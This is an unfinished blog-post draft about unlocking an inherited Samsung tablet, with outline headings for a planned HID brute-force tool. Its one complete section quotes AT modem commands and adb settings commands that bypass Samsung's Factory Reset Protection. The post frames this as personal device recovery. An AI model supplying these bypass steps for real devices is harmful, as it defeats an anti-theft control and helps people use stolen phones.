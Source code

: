 ```yaml
---
layout: post
title:  "Brutefocing Phones Using HID Devices"
---
```


# Preface
So my aunt recently died and left behind a perfectly good Samsung Galaxy S7 FE tablet. Unfortunatly (or fortunatly for you the interested reader) we did not know the password for the device which left us with one option: Factory Reset.

Unfortunatly all modern Android devices employ a feature Google calls **FRP** (Factory Reset Protection) which requires you to either:
- Enter the correct PIN / the correct Pattern
- or sign in with the connected Google Account.

Unfortunatly neither of those where available to me so I had to find anoter solution:

### The Easy Way
Before going into the main topic of this blog post I want to point out that there are much easier ways to perform what I did. There are still many different FRP bypasses available and you might find a working one if you google a while.
For this specific device and many others Samsung was nice enough to add a small backdoor in their baseband with can be used to enable adb and use it to uninstall the app responsble for FRP. The flow goes something like this:
- Open the Dialer (though some talkback trickery)
- enter `*#0*#` in the dialer to open the Samung debug menu which connects the phones modem in serial mode to a USB connected computer
- use the AT commands to communicate with the modem and enable usb debugging (modem version depended, the following commands did not work for my device)
  ```
  AT+KSTRINGB=0,3
  AT+DUMPCTRL=1,0
  AT+DEBUGLVC=0,5
  AT+SWATD=0
  AT+ACTIVATE=0,0,0
  AT+SWATD=1
  AT+DEBUGLVC=0,5
  ```
- we are now able this script that disables FRP by "finishing" the phone setup
```
settings put global setup_wizard_has_run 1
settings put secure user_setup_complete 1
content insert --uri content://settings/secure --bind name:s:DEVICE_PROVISIONED --bind value:i:1
content insert --uri content://settings/secure --bind name:s:user_setup_complete --bind value:i:1
content insert --uri content://settings/secure --bind name:s:INSTALL_NON_MARKET_APPS --bind value:i:1
am start -c android.intent.category.HOME -a android.intent.action.MAIN
# Wait 5 sec
am start -n com.android.settings/com.android.settings.Settings
# Wait 5 sec
reboot
```

These snippsts have been taken from the riskeco.com blog post: [https://blog-cyber.riskeco.com/en/analysis-of-samsung-frp-bypass/](https://blog-cyber.riskeco.com/en/analysis-of-samsung-frp-bypass/)


# Theory of hid input devices

# Requirements for android / Linux Kernel

# The Attack, Introducing the existing brute force solutions
- Gets reset after factory reset

# The tool
- exponetuinal growth
- adjusted wordlist
# Issues
- random resets?
- sucesss?
- skipping inputs
- tracking location

- Hid test vs echo

# Improvements and Future Work
- raspberry with stepper motor
- attacks based on input (dialer?) Frp bypass?


